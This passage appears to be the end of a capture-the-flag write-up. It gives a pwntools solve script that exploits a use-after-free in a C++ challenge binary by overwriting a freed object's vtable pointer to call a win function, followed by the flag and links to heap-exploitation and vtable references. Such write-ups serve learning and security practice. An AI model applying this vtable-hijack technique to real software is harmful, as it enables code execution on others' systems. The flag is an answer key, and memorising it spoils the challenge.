 ```py

def download_chal(category: int, save_index: int):
    if not (1 <= category <= 5 and 0 <= save_index <= 3):
        raise RuntimeError("bad bad")

    p.sendlineafter(b"> ", b'1')
    p.sendlineafter(b"> ", str(category).encode())
    p.sendlineafter(b"> ", str(save_index).encode())

def solve_chal(index: int):
    if not (0 <= index <= 3):
        raise RuntimeError("bad bad")
    
    p.sendlineafter(b"> ", b'2')
    p.sendlineafter(b"> ", str(index).encode())

def submit_writeup(content: bytes, length: int = None):
    if length is None:
        length = len(content) + 1
    elif len(content) >= length:
        raise RuntimeError("your math bad bad")
    
    if b'\n' in content:
        raise RuntimeError("bad bad newline")

    p.sendlineafter(b"> ", b'3')
    p.sendlineafter(b"> ", str(length).encode())
    p.sendlineafter(b"> ", content)

# downloaded[0] = new forensics;   (vptr points to forensic's vtable.)
download_chal(1, 0)

# delete downloaded[0];    (chunk is moved to tcache/fast bin. downloaded[0] itself is unchanged!)
solve_chal(0)

# Chunk is allocated-- reusing the chunk previously deallocated.
# Overwrite vptr of downloaded[0] with &(&win).
submit_writeup(p64(elf.sym['win_addr']), 0x10)

# downloaded[0]->solve() triggers double dereference (due to virtual function resolution) and calls win()!
solve_chal(0)

p.interactive()
```

### Flag
```text
gigem{h34pl355_1n_53477l3}
```


[doublefree]: https://web.archive.org/web/20231001021419/https://heap-exploitation.dhavalkapil.com/attacks/double_free
[vtable-so]: https://stackoverflow.com/a/99341/10239789
[vtable-pablo]: https://pabloariasal.github.io/2017/06/10/understanding-virtual-tables/
[gb-vtable-cpp]: https://godbolt.org/#z:OYLghAFBqd5QCxAYwPYBMCmBRdBLAF1QCcAaPECAMzwBtMA7AQwFtMQByARg9KtQYEAysib0QXACx8BBAKoBnTAAUAHpwAMvAFYTStJg1DIApACYAQuYukl9ZATwDKjdAGFUtAK4sGIM6SuADJ4DJgAcj4ARpjE/gDspAAOqAqETgwe3r7%2ByanpAiFhkSwxcWaJdpgOGUIETMQEWT5%2BAVU1AnUNBEUR0bEJtvWNzTltwz2hfaUDFQCUtqhexMjsHOYAzKHI3lgA1CYbbk4KBMSYrIfYJhoAgje3O0wKCnvKDYwEB/FWd0leUVoeGQIAee3Be1CXySH0EAH10Ex6odfrcIW9YQQIFC9oj6nM9iA9jDzvC8UwTD9yZSACLfKzxGkPMEQgBueEaXjEe1ZqDw6D2/FQ2MEe1UBMpFj2p3QIBQSy%2BhzcSoOZjMJM%2Bewg5jMByOKo1ZKRTD1yqOqrMBKFRJ1ppVqjt5plctctBR3yZd3R7M53N5/L2UQaIq%2B4vp0oIsvlXkV%2BvNOsNX21asdbmJmIRxtTFoJQbiFuzDqVKudIFd7tpzMZKIeTxeexpsTwrMwAqJ/0BwIxpMVPweHaBIJZ4JxWGIzdbmeRG1R6Mb45b6BDuONpEhovJlsJ3c%2BkupjLXY4n6CnFKpxrMtPplbuw55HIIXNoPL5Arzy7DkojUbQMezOqPRctVtYtzUTU9/zVNcQLjNNAMnclIK3PMbRTUC0yLWDvxdBh0DdGcPSrJkZ2ZO4cRYJhQggCU%2By9CF3h7YlJS4SsSLo8EkgAOiFCBLXdAB6fid0EOUhTvLj3w2OYBKEhjPjlPNSLRCF52PXFJQAVjXAA2VjZwhdBuNQYV4mkgjBOEghROMu9DPfAAOMypQs1TFwUhoiI4BZaE4DTeD8DgtFIVBOGVSxrGlJYVkwVUNh4UgrMCryFgAaxADSNH0ThJH8zReBCjheAUEBMsSrQFjgWAYEQeUWCSOhYnISg0Dqhq4mALgzC4Pg6AIWJiogKI8tIKJQgaABPTh4pathBAAeQYWhJqS0gsAooxxBW/BzhqFtipWzBVGqGM1iCqFMB8lagSiYgJo8LBhrOPAWCmry%2BAMYAFAANTwTAAHc5qSRhXpkQQRDEdgpFB%2BQlDUYbdG6gwjBQaxrH0PAomKyAFlQJJHAEfaiou6p8b8CBXFGPxuuCKYSjKPQUjSUnKYZ/JSd6OmBm69pSa6EZPBaPQedqCYOf6OJuYmFnJe6MWZglhYFCi1Y9DOTA1h4bzfNylaCtUeztIAWm0yQ9mAZBkD2TrOK4LUwqsSw11wQgSFi7q9g8Vr6GIN25l4MrktINKMqyjgctIF6Q4CoKCqKkqEryirqogJAFX%2BAgmogFr6u98JWDWfWjZNs2Latswbd4VsXfHWVuv4MHRHEKH65hlR1BWhHSD%2B26klerWOD80ho/yzg5pjdO9lQKgxQN43TfNy3rdtiBPZz2Jff9xOFgQC4x0ofvw8jzLh%2BCzg49Kreg/SzLLo2HWY7PhOkrmfuzHvkfCqf8qFhbYg0mcSQQA
[gb-vtable-c]: https://godbolt.org/#z:OYLghAFBqd5QCxAYwPYBMCmBRdBLAF1QCcAaPECAMzwBtMA7AQwFtMQByARg9KtQYEAysib0QXACx8BBAKoBnTAAUAHpwAMvAFYTStJg1AB9U8lJL6yAngGVG6AMKpaAVxYMQAJgDMpBwAyeAyYAHLuAEaYxN4AHKQADqgKhLYMzm4e3n5JKTYCQSHhLFExXvGWmNZpQgRMxAQZ7p6%2BFphW%2BQy19QSFYZHRcRZ1DU1ZrQojvcH9JYPlAJQWqK7EyOwcAKS%2BwchuWADUmz6Ok/ioAHQIx9ibGgCCd/cEAJ4JmFhUBwBuqHjoBwgACoqK4GMgEgRiMYCAsIAtjgAhA4AehRBwAKm9MAcxHgmAoDvxiESwdUBAcksECNEFBcnk9Xu9PgdJsRXNYjgB2RFPA780ngyHQghAn51CL0JF8gXUyn1RgEYzoJh1aUPTZcgAiB2UCsE6seDyZH0wXzZHII3N5DwFgohUJhYu%2BEqlPht9ztcoS%2BqVKrV7tR6IAkgwENFCB8icRUCx5cRFfTbbLBAcsMQ8N8PsrVUxDZqdVqI1n0PmHmiDtgGO5oqq0gdUF9vngGq4xPbOnSnox3NaDgA1ABiclCjgxwYA8qFjIOJxPSAPh6Px1PjIj7gAlblasv3CvOcEJmkHPAsBL0NiCOsCLsPX7/eOK0z8VAQPUJwRihILuWqBZ9hIM0EKgIG2LwfQ/K1QK8ABWdB/xfEAjlg0sYMcBgwIXBIAFobggp9/SYBc/yRbcnnvAF8MEUwInqN9fS/H9Uz/ACgIIECwKoqDtjg/9aJiZC4M2NCMK8LwsNwnxsC4nM6mIhFAwLci/gBdNM2zYx%2BIgIsMxLMV0CYq0WM1ZFAOpDixLUktAR4gzBPgg5%2BKQ2zhPQzC00k6TfVkoiPJuKzs0I%2BTSKUjVy3RfsWwINtaBPM8L0Va8GEJCAE3wBNrAWJN7goolUFfd9FUYk9mP/EzKU8l0mElTBhMRIcRzHSdp1nCdhK1KAKKBBZvwOEjFO1ZSHy0wrP0pQy%2BrKnkKpuKqarqhrl2atdN3azqVO63r%2BuRUKjT3dE5voNMzWCVIb2y0EhUdK0ZOMQ7apg3kYJ1Y4Xp5GV%2BVul9SA%2Bx9qM0%2Bofo1Qb3QZB5LodEVjt0jT7rq9qjh8N6PTtL78qBz0BQC9AaMBhkQY9J45RYJhgggCippRgVRpuxHkdu%2B6Fy4JTQeTfkX2ggA2XqvAU5EKzR1Bfq07ZuYXHw%2BaDP6lQB4hst%2BnT1NUunrWx0xGYOGCF05lmqfZ/KoBp7rRbsrlJYF7zjBfYW6PoyDja8Tm7Nic30TV2X5e1DglloTgYN4TwOC0UhUE4RxWRWNYcW2HweFIAhNG9pYAGsQBgjR9E4SQA8TkPOF4BQQAzhOg%2B90g4FgGBEBQWMEjoaJyEoNAz3rmJkGALgvC4Pg6BpYhC4gCJc4iYJ6heTg4%2Bby8CAnBhaHH0vSCwEmjHERf0qqGws0LxfMFUKpXBpXPqXaXPaDwCJiDH5wsFzqFTwnsuqAMYAFEizAAHcJ3eQO4/4QQRBiHYFIGQghFAqHUIvXQ3cDBGBAKYYw5hz4RELpAJYqBIRpB3gXdom80j2AYE4FwzQ9CBBmMUUoehchnXSMQrI3dqGdD6BQwY3dKjki6FMMYng2G4I4d0BozCBgxDYVwuhPDhg9CEXMERSwFCR3WHoKEmANg8B9n7HOi9Q4cFULETm2FOaSAOMAZAyADidwuFwQEjgFy4EICQZCscFzOBbvQEkMcuALF4CXLQCwU5pwzr7Dg2dSAsACaQQOwdtEFyLvHROSwK7VxWAQBIh9G4QGbnXNxoRWAbF0fowxxjTHmK8JY3gHx7EZnQHof%2BwhRDiBAbU8Bahc7QNIB/K%2BCRH7qI4P7CJudtETkPqkq0jY%2Bp6IMUYkxZiLFWIgC4rJ0RHGeO8fEpY4YmDpkoD0kJYT079K0fnCwsSfFJ1IKnfZQSfCaKiUc05fjM4cC8Dc3g0S4mlweVmfu%2BDJBAA%3D